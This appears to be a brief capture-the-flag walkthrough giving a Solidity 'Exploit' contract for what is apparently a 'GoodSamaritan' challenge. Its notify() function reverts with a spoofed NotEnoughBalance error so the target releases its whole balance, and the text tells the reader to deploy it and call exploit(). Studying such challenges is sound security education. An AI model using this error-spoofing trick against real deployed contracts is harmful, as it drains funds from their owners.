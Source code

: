 Deploy the following contract to the same network
```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;


interface INotifyable {
    function notify(uint256) external;
}
interface GoodSamaritan {
    function requestDonation() external;
}

contract Exploit {
    error NotEnoughBalance(); 

    function notify(uint amt) public pure{
        if (amt == 10){
            revert NotEnoughBalance();
        }
    }

    function exploit(address _who) public {
        GoodSamaritan(_who).requestDonation();
    }
   
}
```
Call exploit() sending your contract instance
